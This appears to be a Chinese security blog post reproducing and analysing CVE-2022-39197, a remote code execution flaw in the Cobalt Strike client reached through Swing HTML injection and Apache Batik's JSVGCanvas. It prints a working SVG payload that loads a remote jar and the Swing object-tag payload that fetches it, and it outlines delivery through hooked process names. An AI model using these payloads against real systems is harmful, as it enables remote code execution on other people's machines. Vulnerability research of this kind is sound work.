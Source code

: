 title: CVE-2022-39197 CS RCE复现分析
author: bmth
tags:
  - CVE-2022-39197
categories:
  - java
date: 2023-03-22 21:21:00
top_img: 'https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png'
cover: 'https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png'
---
![](https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png)

Cobalt Strike（也称CS）由美国Red Team开发，是一款基于java的内网渗透测试工具，是最早的公共红队指挥和控制框架之一。Cobalt Strike旨在通过模拟几种可能的攻击工具和场景，允许渗透测试人员和网络防御人员检查他们的安全专业的强度。然而，安全测试套件也被黑客（包括勒索软件团伙）广泛使用，以渗透目标网络

该漏洞存在于Cobalt Strike的Beacon软件中，可能允许攻击者通过在Beacon配置中设置假用户名，触发XSS，进而在 CS Server上造成远程代码执行

影响范围：
- Cobalt Strike <= 4.7

漏洞原文：[https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-1/](https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-1/)

## Swing框架
这个漏洞本质上是java自带的GUI组件swing的html注入

从官方给出的文档：[https://docs.oracle.com/javase/tutorial/uiswing/components/html.html](https://docs.oracle.com/javase/tutorial/uiswing/components/html.html)
可以知道，Swing本身是支持HTML的标签的，只需要`just put the <html> tag at the beginning of the text, then use any valid HTML in the remainder`

写一个demo测试一下
```java
import javax.swing.*;
import java.awt.*;

public class SwingDemo {
    public static void main(String[] args) {
        JFrame frame = new JFrame("SwingDemo");
        frame.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
        frame.setPreferredSize(new Dimension(400, 400));
        JLabel label = new JLabel("<html><img scr=x></html>");
        frame.getContentPane().add(label);
        frame.pack();
        frame.setVisible(true);
    }
}
```
![](https://img-blog.csdnimg.cn/c131303c71b44e159f3e972fb6e091b9.png)

发现成功解析了img标签，但其实这套html的解析引擎是java自己实现的，并不是引了一个第三方引擎
在rt.jar包里面的`javax.swing.text.html.HTML`实例化了一堆Tag对象和Attribute对象
![](https://img-blog.csdnimg.cn/02000610cfb241deb287efce80694fd0.png)

并在`javax.swing.text.html.HTMLDocument`类中将每个之前实例化的Tag都对应指定了一个Action类
![](https://img-blog.csdnimg.cn/dad49d0f0b2f4f18add812abfcf5135c.png)

`javax.swing.text.html.HTMLEditorKit`里的create方法可以看到不同的标签会创建不同的view
![](https://img-blog.csdnimg.cn/a1f72785a81d4784947fb9c853411bc5.png)

我们就可以看到这里script直接返回HiddenTagView了，说明并不支持script标签，也就没办法执行js代码
但这里其实存在一个**object**标签
![](https://img-blog.csdnimg.cn/fbd090cc9121498f8bb4064c3f354f39.png)

它反射并实例化一个继承Component的类并且通过param进行参数传递
![](https://img-blog.csdnimg.cn/8ec64fe147b24d979ce3a88dfdbb95c7.png)

跟进setParameters方法，可以看到该参数必须是string类型，并且必须是可写方法
![](https://img-blog.csdnimg.cn/e51b685e5c424486b1742941f268050d.png)

总结下来就是：
- classid传入需要实例化的类，类必须继承与Component
- 必须存在无参构造方法
- 必须存在一个属性XXX，并且该属性有setXXX函数
- setXXX方法的传参数必须是接受一个string类型的参数

## JSVGCanvas RCE
最终师傅们找到了一个
```
org.apache.batik.swing.JSVGCanvas-->setURI
```
![](https://img-blog.csdnimg.cn/11aee6241e034cf1a299526ffea8f1d8.png)

这个方法的功能是设置SVG图片的地址，远程加载SVG图片
在网上找了一个XXE的漏洞：[Apache Batik XXE—【CVE-2017-5662】](https://xz.aliyun.com/t/1920/)，但是这个漏洞在1.9版本就已经修复了，现在的batik版本已经是1.14

在解析svg时会调用到`org.apache.batik.bridge.BaseScriptingEnvironment`类的loadScripts方法
![](https://img-blog.csdnimg.cn/1eb16af67865497a9d42150842a8e959.png)

可以看出通过获取type来走不同的分支流程，默认为`text/ecmascript`，这种方式可以通过javascript库来执行命令，但是由于默认CS的jar包中并没有javascript库，导致这种方式并不能执行利用，但是我们可以走另一个分支流程，是type为`application/java-archive`的情况
![](https://img-blog.csdnimg.cn/43ba5354fcc9457f8d290e1cf5230849.png)

这段代码通过var26加载远程的jar包，然后loadClass加载var13对应的类，如果var26可控，那么我们就可以通过这种方式来构造RCE

跟进`XLinkSupport.getXLinkHref`方法
![](https://img-blog.csdnimg.cn/67f0e05d3b7745449fb344b7881eb2e2.png)

发现是URL地址来自于namespaceURI为`http://www.w3.org/1999/xlink`的href属性


这里有两种方式：
一种是实现EventListenerInitializer类，MANIFEST.MF指定SVG-Handler-Class
一种是实现ScriptHandler类，MANIFEST.MF指定Script-Handler


其实早在2012年就有利用方式了：[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)
evil.svg：
```svg
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0">
	<script type="application/java-archive" xlink:href="http://127.0.0.1:8000/EvilJar-1.0-jar-with-dependencies.jar"/>
	<text>CVE-2022-39197</text>
</svg>
```
然后Swing加载
```html
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='http://127.0.0.1:8000/evil.svg'></object>
```
![](https://img-blog.csdnimg.cn/18faec9bd237413ebb784030213fb29d.png)

成功rce
## 漏洞利用
网上已经公开了脚本：[https://github.com/its-arun/CVE-2022-39197](https://github.com/its-arun/CVE-2022-39197)

可以通过frada脚本来hook win api修改tasklist返回的进程名，将进程名改写成攻击payload，当攻击者点击beacon执行列出进程时，只要他浏览到带有payload的进程名，就会执行RCE
![](https://img-blog.csdnimg.cn/7d5ccb96afa3482f9f44aaa8621687df.png)


参考文章：
[CS的RCE利用研究](https://xz.aliyun.com/t/11815)
[最新CS RCE曲折的复现路](https://mp.weixin.qq.com/s/l5e2p_WtYSCYYhYE0lzRdQ)
[反制Cobaltstrike的那些手段](https://forum.butian.net/share/1975)
[最新CS RCE（CVE-2022-39197）复现心得分享](https://mp.weixin.qq.com/s/89wXyPaSn3TYn4pmVdr-Mw)
[CS Xss2Rce CVE-2022-39197分析与复现](https://cloud.tencent.com/developer/article/2220765)
